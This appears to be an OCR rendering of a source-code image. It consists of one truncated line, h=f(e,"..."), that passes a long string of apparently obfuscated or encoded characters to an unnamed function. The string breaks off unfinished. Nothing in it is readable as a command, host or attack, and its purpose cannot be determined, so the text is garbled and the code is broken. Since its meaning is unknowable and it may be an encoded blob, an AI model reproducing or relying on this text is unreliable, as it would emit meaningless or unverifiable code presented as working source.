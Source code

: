 h=f(e,"#(_ET,?-M>X6pvsapa__6ETTv-?>(sMM(>XXMaETp??(>a-?RX>s_M-T,pv--X6M>>_p6X,Dv_?(PEM,(,?_TXpv?>ssE-a,XME>p>Eas_-(6aM?aT,,aE-TP,>??p_?XXEpv-?(psMX(6>?EXv,?Ms,M((>EXpa,>sX-6-T(_>8Fv6(Tsv-P?>X_,6?T-_XpX?MsaM6(XT(v>?:a(M_?,(>XE(>6p,Xsa-Eas>(pD>?va-Oj(s6>__>?pTMpp(MssME(aXTE_v5;as_-v<E>?_ap(TasX-pasMss-?p,(v??T6N>T(,6,Evv,?XX-M((p,X_ap6?TspE6p/XBET-E,vsT-66-Mp_M6MTaMp?,sa>,(,?(T?p6,>X,M(0p6(a-,vap-pIv>sM(_,p(Tsvp?-a?>X(pXp_pvs?Xas-s(,XTvE?6a_ME(TsM>s_Mp?,Yva,>av>X_E,_as-(7_>E>M(vXaTXv(?pasME((6jEEp_?_s?M?OMX-E>p(Tpa(-Mm0Mp_M6>,_vM?va?_,6XTTv,??Epa,M_(s-pEMp>a(XT(qX(E_(-X-_Xp(_-ss,6vX>+Evva?XRMTda_X,E?p>?Ma>E-ss>XEEp-wpvgM_BQXTE?p,/E6M-T!v>,6MT>vX?6apMv(s>a-avT??aEMT(,rv>ME,6ssvM*=p>v_sEE6(TEvs?M>-_X6?T-vMvp?Xsp>E(6T(vM?La(M_?,c>XME,pp,Xvp?aQs_ap_Tsva-n-(aEMp_?6Mv-?Ma6>,(XX6Ep_(v,,Ts,-aa,>ME?p6TavX?v>pTv66Tpvvp_,_v,?pv_>>b?M,E6sMMX(,6Es6>v,ds(-T(EXTs_>>T,vs-_6--a_66>T>vE(vv>MT_>TTvp?EaTM,,>(>>v_Xps,56s-pzXXEpE,>s_-EkTvpM6_6M>Tpvv?lde_i6MEav2?(,sa_-,Y>X>E6pX,_sM-_>ap(6sTas%v>-?f->T_MMr8?>-?8aEMs_O?6E,pM?Ts>M-;,X>EM66,>v6-M&M>a_(66,_>v?E5HMas_6-TUpa,>a(-v(EXaE6p?,XsTMTy->EE(M?(,X?Esp-,6saXpPppaE(aEM_s(-_ET>?_XspTss(-H9EMp,_6TT(wE?Ma,MM(TXM?Map,psv-MTppp-E6p,_(_-L:->T_>6X-X)6?papMsTsX6T,v,?,a-MnTTX>?MpX,6(>Xv((pvE_saM(s,-qEE>(_M6_--v??pa,6aTvs,-?2XXE_ppST6vT_aas>M(,TMvv?-aMM>?_(a6*EvX,,TaT(TX?EEpT,,Tpsr-?av_vp,Tpvv?sT?a,>,z,XMT?v6,asX-vXpTEp6,psvp_-saT>>_->X,Eva-,>XE_6>TXv66E?_F_?s(_X6E-p??MaM(>6XEMp>,XEvvsM,va>v_(6v,6s-?vaM>>/XXvT6sO?TsaM_6(Tvv9?(a_p>-v(E>Xtvp(,6sv-ava>,_-66TT-T}X>E_T6,6XT?v6?vapMT(XXTv(-MakM((_aiXEETpTEXvv?pa>-sEF6aT-vv?-UT?X(pXME>p6?,p>Mv(sXvpa?Mss-a(KsM>-E->-,(va?p5?>v!EXava-(asMa_gaaXETJp>aMMX(-XME>((pX,?sp((X_EPp(,_,(v>-p>>M_6MT>vXvE-x%(Ms__-X*q>(?,s,MpvT>sE(pv,_aU?s(_X(_Tp_TTs(-(BMMX_T66w?pp?>aMT6_8X>EMp_,Xs?-p(MXT_apETvsv-^ap>Xsa-staX-EzvTMT_JX>Ta66?-vpM>(v>aE_vd,Ta_T!Sa>T_vpE(,6>-TaXMv_?6MT?s(-Ea,M,sjXaT>p?a>>((MX>EX<ap,?Bs(-s}s>a_-6?,M-M?,>-_M6>6_Tasq?vj(,>va-.TTpT?66E-v(bXpE(paTva(MH<EX(_Eph,;s-?>HE>Xs,X6TMv-_XaaMM(-X(E>p,,6a-MELsX__pppTav6->ps,vssM?Ya6_,?t,M,(s6TI?vX,sa&Msv6X,EEpK,TaTT((F>,_spT(?pT-_/(>EE 66T-vv?-vE>((a6M2Ev_?ps>(p6-E6pp,vTvv,--a_Mp_,Xv_-6>-ss--s/,Tss_?vasMa-*(_6TEMv_?>M>(sXME>pXp_,(a(-,AT>sE-,,sX-Tn,>?-__-6TTavs?(a6_(6MTfv(?_E?sp-?(M>M_6pvTasv0a6>_s6a,IE,p,TMvaT,Sp->aMXs,6avMM_?,s(*pE,Ts-M?(-,,(>ppT6vp?a)s>ap&,6va-kq(v6>?a,6EEavTTMa,-6_TX,E6p,a_M6((X_EE(1pTT>vM-Ts>>?(pp,T_snW_6(_(6_TE_M6ME6v_EMaa?ps6X(Tsal-6(>,(mE6?T-vX->cXTMaaX6TTvM(vsEMv(6XaT(vX?_MME(X-EMp>ppTvaT?s((X__,p,T6v-EspT,,ak-ayv>XE(pt,(vs-?!,>,__6ET6XM,6p-,Ms>ps,ss(-MvsX,(_>(T-aT>?_(6aa-X>,psvMI(a6OssX,,(sX-spE-?E(6-TXsE-,jE>sE 6_T_-_/p>(__6E6-EXp>?>svMv!6XEETpM,EaM(EXME_pE,TE,s_?M((Ms_p6sva-XasMa_!av6(ETpME?aTMq(,>XEspT,6s6((X6E%p(,_E(sE->aaMv_(XpE6va?,apMp6_T>v(?_aEpp-Xh-X>Ep66TavpM*X*Es6a,1s(p--?a>>-aa6,TMvs?svsM((a6TEMpE,?M,?6XTE,p?6a,psv-Xms??sp-v,(v(-Mp)MX(v6>Esvp,XasMv(HXsEbpv,vaT-?(5X-a_6M,,sTE-op>,_TXsT?v_?MnT>8(6XaE>v>,psMM?v6?Xa6>E(pp^-kdp>,E6X-,EpM-,e>M6(s6pT8vs_pa6Md(>Xah(XME,vMMXyMXpEspv(>sMM_aaE_pT,(s_-ETaasM>__T6E,?Xa6MpM,__6ETmvT_p6_TE(->-EsM?,ZsE-a&TX__FpT,Ev?-Ta?>E_E6XEpv??v6M-s(6XXavv_,6sX-T8p>M_spX,?s(-,aa>a__XsTpX(Ewp(,>s_M?E?v_,6*(?v(>MsE6pa,(sTM_2?XTa_p(T?va-,p-->_aXvTMv??(s_>T(_6?TMv-_Ea_Mp0>Epv,,6sp-v-(As>s_a6-T?sM?s},>,_6T>s??6apMv_MXaT8v(?,apMT(,X?-pE,p_,s6a-(V>MaEM,EsT-_0E>T?s_>MMv6?saXM6(p((XEE6p(?XM,(-XTE,p?p6T>sp-,>sE(6vTsvas;?_a6>,_-TMs_?-aMM>?((i69csv_?Ea_-X1TXMEM6Xs>M?cM>>_X&6XvTas_?MaEMv(-MMT(ps?Xa6-v(6Evv>,psv-s,?